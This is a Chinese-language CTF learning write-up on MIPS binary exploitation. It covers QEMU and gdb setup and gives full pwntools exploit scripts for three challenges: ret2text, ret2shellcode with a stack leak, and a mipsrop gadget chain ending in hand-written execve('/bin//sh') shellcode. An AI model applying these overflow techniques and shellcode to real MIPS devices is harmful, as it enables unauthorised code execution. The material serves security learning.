


MIPS PWN学习

- - -

# MIPS PWN学习

## 环境搭建

```plain
sudo apt-get install gcc-mips-linux-gnu
sudo apt-get install gcc-mipsel-linux-gnu
sudo apt-get install gcc-mips64-linux-gnuabi64
sudo apt-get install gcc-mips64el-linux-gnuabi64
```

## 本地运行

### mips32位动态连接

qemu-mipsel -L /usr/mipsel-linux-gnu/ pwn

### mips32位静态连接

直接运行即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191505-29c42326-b785-1.png)

## qemu细节

pgrep qemu：找到正在运行的 QEMU 进程的 PID  
kill -9 port：强制杀死这个进程  
ps aux | grep qemu  
sudo kill -9 37266

## gdb本地调试

qemu-mipsel -L /usr/mipsel-linux-gnu/ -g 1234 pwn  
gdb-multiarch pwn -q  
set architecture mips  
target remote localhost:1234

## mips特点

MIPS不支持NX就给了我们向栈区写入shellcode的权利  
溢出控制$ra寄存器直接跳转到shellcode处就可以了

## mips汇编知识

### 寄存器

```plain
$0：$zero    常量0(constant value 0)
$1：$at  保留给汇编器(Reserved for assembler)
$2-$3：$v0-$v1   函数调用返回值(values for results and expression evaluation)
$4-$7：$a0-$a3   函数调用参数(arguments)
$8-$15：$t0-$t7  暂时的(或随便用的)
$16-$23：$s0-$s7 保存的(或如果用，需要SAVE/RESTORE的)(saved)
$24-$25：$t8-$t9 暂时的(或随便用的)
$28：$gp 全局指针(Global Pointer)
$29：$sp 堆栈指针(Stack Pointer)
$30：$fp/$s8 栈帧指针(Frame Pointer)
$31：$ra 返回地址(return address)
```

## mipsrop

### 安装

[https://bbs.kanxue.com/thread-266102.htm](https://bbs.kanxue.com/thread-266102.htm)  
直接看这个链接的评论区即可，然后直接把文件复制过去

### 常用的功能

mipsrop.find()  
mipsrop.stackfinders()

## mips(ret2text)

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191735-83672f36-b785-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191740-862b4e14-b785-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191745-88f62506-b785-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191749-8ba544ee-b785-1.png)  
这个题目就是简单的ret2text，先用这个题目熟悉一下汇编知识  
调试还是老方法，一个终端开远程，一个终端开gdb设置架构，然后远程连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191819-9d690c4c-b785-1.png)  
然后开始看汇编

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191827-a23cd17c-b785-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191832-a527f542-b785-1.png)  
A0-A2三个参数  
这里我是用打通的exp来调试的，来看一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191843-abaae49c-b785-1.png)  
发现运行完read后，fp指向类似于prev rbp+8的位置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191849-af7be7a6-b785-1.png)  
jr是MIPS汇编指令中的一条，用于进行无条件跳转。它的作用是将控制权转移至一个寄存器中存储的地址。通常情况下，jr指令与jal（跳转并链接）指令结合使用，jal用于函数调用，jr则用于返回函数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191857-b44731fa-b785-1.png)  
这里如果不好从栈里看出返回地址的话，直接去看寄存器是给比较好的选择  
就比如我们调试到了read这个位置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191910-bbf05580-b785-1.png)  
然后找到了这个地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191921-c241eb92-b785-1.png)  
我们去看一下栈空间

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191928-c66b4c40-b785-1.png)  
返回地址应该是在fp的低一位，如果不确定，就看一下ra寄存器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191935-ca85ddfe-b785-1.png)  
发现确实是在fp的低一位  
然后我们根据偏移去覆盖返回地址即可

```plain
backdoor=0x0400844
pl="a"*0x44+p32(backdoor)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120191957-d79509fc-b785-1.png)  
getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192008-de6260ae-b785-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch='mips'
context.os='linux'
context.log_level = 'debug'

p = process(["qemu-mipsel","-L","/usr/mipsel-linux-gnu/","./pwn"])
#p = process(["qemu-mipsel","-L","/usr/mipsel-linux-gnu/","-g","1234","./pwn"])
elf = ELF("./pwn")
ru('what is mips?\n')
backdoor=0x0400844
pl="a"*0x44+p32(backdoor)
sl(pl)
itr()
```

## HWS2020 Mplogin (ret2shellcode)

### 思路

一开始做这个题目的时候有些小问题，就是我按照习惯把文件名改成了pwn，然后再第一步一直没有办法泄露栈地址，后来意识到附件里面还有一个.DS\_Store文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192350-6293ba08-b786-1.png)  
这个文件是macOS系统用来存储特定文件夹的自定义显示设置和元数据的文件，所以应该是这个文件对栈空间有些影响，所以我们直接把整个文件夹的内容复制过去，然后正常做题就可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192356-6666942a-b786-1.png)  
什么保护都没有

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192404-6aded3aa-b786-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192408-6d628252-b786-1.png)  
这里可以泄露出栈地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192415-71d3c27e-b786-1.png)  
这里可以通过v2去修改v3的值，然后就在可以在read(0,v4,v3);处造成栈溢出，然后我们就可以写入shellcode，并写入返回地址，就可以执行shellcode了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192423-7629a604-b786-1.png)  
然后就是去看一下调试的步骤了

```plain
ru('Username :')
pl='admin'
pl=pl.ljust(24,'a')
s(pl)
ru('adminaaaaaaaaaaaaaaaaaaa')
stack=u32(r(4))
leak('stack ',stack)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192448-856882a2-b786-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192453-8811791e-b786-1.png)  
泄露出了栈地址，然后再去修改v3

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192501-8cd0c50e-b786-1.png)  
这里v1是按照这些来算的，这里的长度是24+4+3=31,然后31+4=35(0x23)  
就是这个位置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192512-9377c42a-b786-1.png)  
我们直接去修改为一个比较大的数即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192520-9877fc6a-b786-1.png)  
然后getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192528-9d67e1b8-b786-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch='mips'
context.os='linux'
context.log_level = 'debug'
#context.binary=ELF('./Mplogin')
#p = process(["qemu-mipsel","-L","./","-g","1234","./Mplogin"])
p = process(["qemu-mipsel","-L","./","./Mplogin"])

ru('Username :')
pl='admin'
pl=pl.ljust(24,'a')
s(pl)
ru('adminaaaaaaaaaaaaaaaaaaa')
stack=u32(r(4))
leak('stack ',stack)
pl="access".ljust(0x14,"b")+p32(0x100)
sa("Pre_Password : ",pl)
pl="0123456789".ljust(0x28,"c")+p32(stack)+asm(shellcraft.sh())
ru("Password : ")
s(pl)
itr()
```

## DASCTF X 0psu3 shaopi (mipsrop)

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192553-ac3fef50-b786-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192558-af072d8e-b786-1.png)  
本地运行一下可以看出，这里就是base64先绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192607-b495dfe8-b786-1.png)  
然后有个栈溢出  
所以这里就用rop去利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192628-c0c92c2a-b786-1.png)  
栈恢复的地方，是可以通过溢出控制fp的，fp可以控制，我们可以利用mipsrop找到一个可以利用fp去跳转的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192636-c561e358-b786-1.png)  
这里我们可以控制fp指向一个执行a2的gadget，然后在sp+0x68+var\_10的位置写gadget即可  
这里我们找到了可以去执行a2的gadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192646-cbc14a68-b786-1.png)  
所以最后就用这两个gadget即可  
0x0043965C | addiu $a2,$sp,0x68+var\_10 | jalr $fp  
0x0040ABB8 | move $t9,$a2 | jalr $a2  
然后我们找一段gadget去用既可  
直接生成的太长，从网上找了个

```plain
shellcode = '''
lui $t6,0x6e69
ori $t6,$t6,0x622f
sw $t6,28($sp)

lui $t7,0x6873
ori $t7,$t7,0x2f2f
sw $t7,32($sp)
sw $zero,36($sp) 

la $a0,28($sp)

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011

syscall 0x40404
'''
shellcode = asm(shellcode)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192730-e60e06fe-b786-1.png)  
这里是吧sp+0x58给a2

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192748-f04d8bda-b786-1.png)  
这里计算一下偏移

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192755-f4eafe84-b786-1.png)  
溢出位置： #0x0043965C | addiu $a2,$sp,0x68+var\_10 | jalr $fp  
fp位置： #0x0040ABB8 | move $t9,$a2 | jalr $a2  
然后计算a2距离buf的偏移为0xa0  
所以就直接写shellcode

```plain
pl='a'*0x40+p32(0x0040ABB8)+p32(0x0043965C)
pl=pl.ljust(0xa0,'a')+shellcode
sa('Congratulation!\n',pl)
itr()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120192817-02244862-b787-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch='mips'
context.os='linux'
context.log_level = 'debug'
#context.binary=ELF('./pwn')
#p = process(["qemu-mipsel","-L","./","-g","1234","./pwn"])
p = process(["qemu-mipsel","-L","./","./pwn"])

# 0x0043965C | addiu $a2,$sp,0x68+var_10 | jalr $fp
# 0x0040ABB8 | move $t9,$a2 | jalr $a2

p.sendlineafter('your passphrase: ','三元一串十元三串')
shellcode = '''
lui $t6,0x6e69
ori $t6,$t6,0x622f
sw $t6,28($sp)

lui $t7,0x6873
ori $t7,$t7,0x2f2f
sw $t7,32($sp)
sw $zero,36($sp) 

la $a0,28($sp)

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011

syscall 0x40404
'''
shellcode = asm(shellcode)

pl='a'*0x40+p32(0x0040ABB8)+p32(0x0043965C)
pl=pl.ljust(0xa0,'a')+shellcode
sa('Congratulation!\n',pl)

itr()
```
